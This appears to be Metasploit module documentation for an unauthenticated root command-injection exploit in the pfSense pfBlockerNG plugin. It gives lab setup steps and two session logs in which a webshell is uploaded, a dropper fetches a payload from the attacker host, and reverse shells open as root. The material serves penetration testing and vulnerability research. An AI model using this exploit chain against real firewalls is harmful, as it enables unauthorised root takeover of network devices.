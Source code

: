 ## Vulnerable Application

### Description
This module exploits a vulnerability in the pfSense plugin, pfBlockerNG that allows remote unauthenticated
attackers to execute execute arbitrary OS commands as root via shell meta characters in the HTTP Host header.
Versions <= 2.1.4_26 are vulnerable. Note that version 3.x is unaffected.

### Setup
Download the pfSense image:

`wget https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz`

To obtain a vulnerable copy of the pfBlockerNG plugin, you can build it from source from the [official pfSense github
repo](https://github.com/pfsense/FreeBSD-ports/tree/devel/net/pfSense-pkg-pfBlockerNG), or it can be downloaded from
the following link:

`wget https://files01.netgate.com/pkg/pfSense_plus-v21_09_aarch64-pfSense_plus_v21_09/All/pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

Install the .iso file in your favorite virtualizing software. You may need to use the `UEFI` or `BIOS` installation
options to install the software correctly. For testing, `BIOS` was used. You may also need to set the WAN settings.
For this you can just use the default or set it to `hn0` which should also be the default, and this will work fine for
testing purposes.

Once installed pfSense will start and you can access the web GUI by navigating to `https://<pfSense-IP-address>/`.
Sign into the application with username: `admin` password: `pfsense`

Now at the top of the screen select System -> Advanced. Scroll down to the section named Secure Shell and tick the box
beside `Enable Secure Shell`. Then click the `Save` button at the the bottom of the page to apply the changes.

From your host machine we can now transfer the vulnerable package to the pfSense VM using `scp`

`scp pfSense-pkg-pfBlockerNG-2.1.4_26.pkg root@<pfSense-IP-address>:/`

(the root password of the VM will be the same as the admin password: `pfsense`)

Install the vulnerable package with: `pkg install pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

## Options

### WEBSHELL_NAME

This is the name of the webshell that will get uploaded to the pfsense target sans the ".php" ending.
If left unset the file name will be randomly generated.

## Verification Steps

1. Start msfconsole
1. `use unix/http/pfsense_pfblockerng_webshell`
1. Set the `RHOST` and `LHOST` options
1. `exploit`
1. Receive a shell as the `root` user

## Scenarios
### pfSense 2.5.2-RELEASE with pfSense-pkg-pfBlockerNG-2.1.4_26.pkg installed
```
msf6 > use exploit/unix/http/pfsense_pfblockerng_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set RHOSTS 172.23.40.111
RHOSTS => 172.23.40.111
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set LHOST 172.23.47.143
LHOST => 172.23.47.143
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set LPORT 4453
LPORT => 4453
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set SRVPORT 8383
SRVPORT => 8383
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > show options

Module options (exploit/unix/http/pfsense_pfblockerng_webshell):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         172.23.40.111    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          443              yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                              listen on all addresses.
   SRVPORT        8383             yes       The local port to listen on.
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host
   WEBSHELL_NAME                   no        The name of the uploaded webshell sans the ".php" ending. This value will be randomly generated if left unse
                                             t.


Payload options (bsd/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  172.23.47.143    yes       The listen address (an interface may be specified)
   LPORT  4453             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   BSD Dropper


msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse TCP handler on 172.23.47.143:4453 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: zFOOjmPXX.php
[+] The target is vulnerable.
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://172.23.47.143:8383/ITtfiF
[*] Client 172.23.40.111 (curl/7.76.1) requested /ITtfiF
[*] Sending payload to 172.23.40.111 (curl/7.76.1)
[+] Deleted /usr/local/www/zFOOjmPXX.php
[*] Command shell session 1 opened (172.23.47.143:4453 -> 172.23.40.111:30301) at 2022-10-12 19:08:21 -0500

id
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
exit
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set TARGET 0
TARGET => 0
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > show options

Module options (exploit/unix/http/pfsense_pfblockerng_webshell):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         172.23.40.111    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          443              yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                              listen on all addresses.
   SRVPORT        9933             yes       The local port to listen on.
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host
   WEBSHELL_NAME                   no        The name of the uploaded webshell sans the ".php" ending. This value will be randomly generated if left unse
                                             t.


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.23.47.143    yes       The listen address (an interface may be specified)
   LPORT  4545             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse double SSL handler on 172.23.47.143:4545 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: jIuhcpoe.php
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XqZbye7zG7tGBVWc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XqZbye7zG7tGBVWc\n"
[*] Matching...
[*] A is input...
[+] Deleted /usr/local/www/jIuhcpoe.php
[*] Command shell session 2 opened (172.23.47.143:4545 -> 172.23.40.111:33941) at 2022-10-12 19:22:13 -0500

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
```

